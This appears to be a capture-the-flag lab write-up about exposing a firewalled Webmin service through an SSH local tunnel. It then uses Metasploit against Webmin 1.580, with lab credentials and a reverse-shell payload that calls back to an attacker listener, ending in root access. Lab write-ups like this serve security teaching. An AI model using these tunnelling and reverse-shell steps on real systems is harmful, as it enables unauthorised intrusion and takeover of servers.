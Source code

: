 # 🔦 Exposing services with reverse SSH tunnels

<div align="left">

<figure><img src=".gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

</div>

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.\
**-L** is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do **ssh -L 9000:imgur.com:80 user@example.com.** Going to localhost:9000 on your machine, will load imgur traffic using your other server.\
**-R** is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

We will use a tool called **ss** to investigate sockets running on a host.\
If we run **ss -tulpn** it will tell us what socket connections are running

| Argument | Description                        |
| -------- | ---------------------------------- |
| -t       | Display TCP sockets                |
| -u       | Display UDP sockets                |
| -l       | Displays only listening sockets    |
| -p       | Shows the process using the socket |
| -n       | Doesn't resolve service names      |

```bash
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0         *:68                    *:*                  
udp    UNCONN     0      0         *:10000                 *:*                  
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306             *:*                  
tcp    LISTEN     0      128       *:10000                 *:*                  
tcp    LISTEN     0      128      :::22                   :::*                  
tcp    LISTEN     0      128      :::80                   :::* 

```

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!\
From our local machine, run

```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

### Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

```bash
msfconsole
search webmin 1.580
set payload cmd/unix/reverse
Name      Current Setting  Required  Description           [47/256]
   ----      ---------------  --------  -----------       
   PASSWORD  videogamer124    yes       Webmin Password                           
   Proxies                    no        A proxy chain of format type:host:port    
                                        [,type:host:port][...]              
   RHOSTS    10.10.198.217    yes       The target host(s), see https://docs.m    
                                        etasploit.com/docs/using-metasploit/ba    
                                        sics/using-metasploit.html       
   RPORT     10000            yes       The target port (TCP)        
   SSL       true             yes       Use SSL                             
   USERNAME  agent47          yes       Webmin Username            
   VHOST                      no        HTTP server virtual host    
      Payload options (cmd/unix/reverse):                                   
   Name   Current Setting  Required  Description             
   ----   ---------------  --------  -----------       
   LHOST  10.8.112.175     yes       The listen address (an interface may be specified)
   LPORT  1234             yes       The listen port  
```

ROOT !!
